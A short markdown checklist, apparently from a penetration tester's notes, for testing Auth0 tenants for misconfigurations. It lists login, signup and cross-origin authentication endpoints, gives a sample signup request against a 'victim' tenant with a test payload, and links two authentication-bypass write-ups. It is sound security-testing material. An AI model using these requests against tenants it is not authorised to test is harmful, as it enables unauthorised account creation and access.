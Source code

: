 
## Test for auth0 Tenants Misconfigurations

### Endpoints
- **Login Endpoint**:  
  `/usernamepassword/login`
  - Action: Try the login function

- **Signup Endpoint**:  
  `/dbconnections/signup`
  - Action: Signup with a new user
  - ***Sample Request***
    
  - ```request
    POST /dbconnections/signup HTTP/2
    Host: victim.auth0.com
    Origin: https://victim.auth0.com
    Referer: https://victim.auth0.com
    Content-Type: application/json
    Content-Length: 0

    {
      "client_id": "c16EJo48lbTCQEhqSztGGlmxxxmZ4z27",
      "email": "testingforvulns2@gmail.com",
      "password": "hacked123",
      "connection": "Username-Password-Authentication"
    }
    ```
- **Cross Origin Sharing Endpoint for auth**
  `/co/authenticate`
  - Action: Request sensitive information	
### Sample Payload
```json
{
  "client_id": "c16EJo48lbTCQEhqSztGGlmxxxmZ4z27",
  "email": "testingforvulns2@gmail.com",
  "password": "hacked123",
  "connection": "Username-Password-Authentication"
}
```

## Perfect write-up's to read

 - [Authentication bypass in Auth0](https://sentorsecurity.com/blog/vulnerability-disclosure-authentication-bypass-in-auth0/)
 - [Authentication bypass in Auth0 via signup endpoint](https://naumankh4n.medium.com/a-click-can-cause-1600-auth0-misconfig-9234aedad55c)
